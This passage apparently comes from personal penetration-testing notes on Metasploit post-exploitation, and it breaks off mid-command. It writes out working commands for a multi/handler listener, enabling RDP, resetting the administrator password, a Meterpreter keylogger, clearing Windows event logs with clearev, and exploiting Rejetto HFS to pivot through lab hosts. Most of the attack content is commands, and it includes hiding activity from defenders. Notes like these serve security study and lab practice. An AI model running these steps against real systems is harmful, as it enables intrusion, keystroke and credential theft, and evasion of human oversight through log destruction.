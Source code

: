 	sessions 
	run
	getuid
	use exploit/multi/handler 
	sessions -K
	use multi/handler
	show options 
	set lhost eth1
	run
	msf6 
	```

## Enabling RDP
- You need `NT AUTHORITY\SYSTEM` session on meterpreter for this (or maybe not)
- Use the module 
	```
	post/windows/manage/enable_rdp
	```
	- Provide the session number and not username and password
- Go back to your meterpreter session and change the password for one of the accounts with the command:
	```
	> net user administrator <password>
	```
- Then use #tools/utility/xfreerdp to connect via RDP

## Keylogging
- Simply create a meterpreter session
- Migrate to `$(pgrep explorer)`
- Run the command:
	```
	keyscan_start # start the keylogger
	keyscan_dump # dump whatever have been typed up till now
	```

## Clearing Logs
- Categorized based on types of events
	- Application logs
	- System logs
	- Security logs
- To do so, just get a meterpreter session
- Do your stuff and run the commands from meterpreter session
	```
	> clearev
	```

## Pivoting
- Utilizing compromized host to move to other machines
### Steps
- 3 machines: 10.3.28.70 (accessible to attacker); 10.3.24.202 (accessible to 10.3.28.70)
- Gain access to the initial machine:
	```
	> use exploit/windows/http/rejetto_hfs_exec
	> set rhosts 10.3.28.70
	> run
	```
- Add a route, so that you can run commands that can go through this machine
	```
	meterpreter> sysinfo
	meterpreter> getuid